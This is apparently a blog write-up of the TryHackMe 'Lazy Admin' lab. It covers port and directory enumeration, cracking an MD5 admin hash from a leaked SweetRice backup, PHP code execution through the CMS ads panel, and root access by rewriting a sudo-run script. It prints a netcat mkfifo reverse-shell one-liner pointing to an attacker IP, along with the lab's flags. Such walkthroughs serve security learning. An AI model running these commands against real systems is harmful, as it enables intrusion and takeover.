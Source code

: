 ```yaml
---
title: "Lazy Admin"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


{{< post-img src="lazy.jpeg" alt="lazy" style="width: 200px;" >}}

## Enumeration


```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCo0a0DBybd2oCUPGjhXN1BQrAhbKKJhN/PW2OCccDm6KB/+sH/2UWHy3kE1XDgWO2W3EEHVd6vf7SdrCt7sWhJSno/q1ICO6ZnHBCjyWcRMxojBvVtS4kOlzungcirIpPDxiDChZoy+ZdlC3hgnzS5ih/RstPbIy0uG7QI/K7wFzW7dqMlYw62CupjNHt/O16DlokjkzSdq9eyYwzef/CDRb5QnpkTX5iQcxyKiPzZVdX/W8pfP3VfLyd/cxBqvbtQcl3iT1n+QwL8+QArh01boMgWs6oIDxvPxvXoJ0Ts0pEQ2BFC9u7CgdvQz1p+VtuxdH6mu9YztRymXmXPKJfB
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC8TzxsGQ1Xtyg+XwisNmDmdsHKumQYqiUbxqVd+E0E0TdRaeIkSGov/GKoXY00EX2izJSImiJtn0j988XBOTFE=
|   256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILe/TbqqjC/bQMfBM29kV2xApQbhUXLFwFJPU14Y9/Nm
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

```bash
                        [Status: 200, Size: 11321, Words: 3503, Lines: 376]
.hta                    [Status: 403, Size: 277, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
content                 [Status: 301, Size: 314, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 11321, Words: 3503, Lines: 376]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10
/content                [Status: 200, Size: 2199, Words: 109, Lines: 36]
_themes                 [Status: 301, Size: 324, Words: 20, Lines: 10]

.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10]
as                      [Status: 301, Size: 319, Words: 20, Lines: 10]
attachment              [Status: 301, Size: 327, Words: 20, Lines: 10]
images                  [Status: 301, Size: 323, Words: 20, Lines: 10]
inc                     [Status: 301, Size: 320, Words: 20, Lines: 10]
index.php               [Status: 200, Size: 2199, Words: 109, Lines: 36]
js                      [Status: 301, Size: 319, Words: 20, Lines: 10]
```

There is a `"content"` directory

```text
Welcome to SweetRice - Thank your for install SweetRice as your website management system.
This site is building now , please come late.

If you are the webmaster,please go to Dashboard -> General -> Website setting

and uncheck the checkbox "Site close" to open your website.

More help at Tip for Basic CMS SweetRice installed

Powered by Basic-CMS.ORG SweetRice.

//down down bad practices...

These tips may be useful for you install SweetRice.

1,Open your website.

Default,when you installed SweetRice,your website's status is "close",and SweetRice will show "Site is building now , please come late.?" to visitors,if you ready to open your website,you can go to Setting -> General , uncheck the checkbox for "Site Close" and submit,your website's status will be "open".

When you upgrade website, this feature may be useful.You can input some words to the textarea for "Site Close Tip" to replace the word "Site is building now , please come late.?".

2,Protect your data.

SweetRice save all important file in the inc directory,there are two kinds of format ?:.txt (link.txt , htaccess.txt, lastest.txt) and .db (if track feature enabled).If you are using apache server,the file .htaccess which in inc directory will work for protect your data,if your server is nginx,you may see Security setting for Nginx.For other web server ,you may try it yourself.

3.Enable URL rewrite

Apache server supports .htaccess,when URL rewrite feature enabled ?,a .htaccess file will be saved to your web root directory.The file content is:

RewriteEngine On
RewriteBase "your web root"
RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule . index.php [L]

Nginx server does not supports .htaccess file,you may add the URL rewrite config to the nginx.conf or your nginx config file.

example:

location / {
root /htdocs;
index index.html index.php;
if (!-e $request_filename){
		 rewrite ^/demo/.+$ /demo/index.php last;
}
}

4,Set permalinks

SweetRice supports custom permalink,you can go to Setting->Permaliks to set permalinks for Attachment,RssFeed,tag etc.

5,Custom SweetRice

SweetRice is very simple,but you can easy to build your custom website,Do not like default theme?you can use the example \_themes/wblog to build a new theme or download theme from SweetRice Themes?;

Need new feature?you can build a plugin and install it,some plugin at SweetRice Plugins? and you can submit your request to us.
```

Lets visit /content/inc then
latest version of basic-cms sweetrice is 1.5.1 (no great cve anyway)
And a backup of sql database is downloadable (lol that's it)

Just read it

```sql
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

so basically creds are

`Lazy Admin : 42f749ade7f9e195bf475f37a44cafcb`

Its a hash and its crackable
its md5 for `Password123`
I wonder if can ssh with that? nope we gotta find a login page....go fuzz content again
we get a `"as"` directory with a login page
Ok the credentials were actually

`manager : Password123`

Still doesnt work for ssh...we have to abuse that website
in Ads panel we can create custom ads...its php code that will be executed so I say Reverse shell it is!
when created you can actiate your shell by clicking on your named ad in `/content/inc/ads`
As they say in the movies...we are in!

the user home folder is named `itguy`

```bash
www-data@THM-Chal:/home/itguy$ cat mysql_login.txt
cat mysql_login.txt
rice:randompass //hohoho..great
```

FLAG #1
`$ cat user.txt`
THM{lazy_flag_for_lazy_people}

Time to get real

## Privilege Escalation

```bash
sudo -l
Matching Defaults entries for www-data on THM-Chal:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

So we can run that perl backup script in user folder...let's analyse its code

```bash
cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

it runs `/etc/copy.sh`...so what is that?

```bash
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

its already a reverse shell..we will just adapt it to point to us

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.226.203 4444 >/tmp/f' > /etc/copy.sh

sudo /usr/bin/perl /home/itguy/backup.pl
```

And we are done

```bash
# id

uid=0(root) gid=0(root) groups=0(root)

# cat root.txt

THM{super_flag_to_get_root_instantly}
```

Feeling lazy too now...that one room was enough for today!
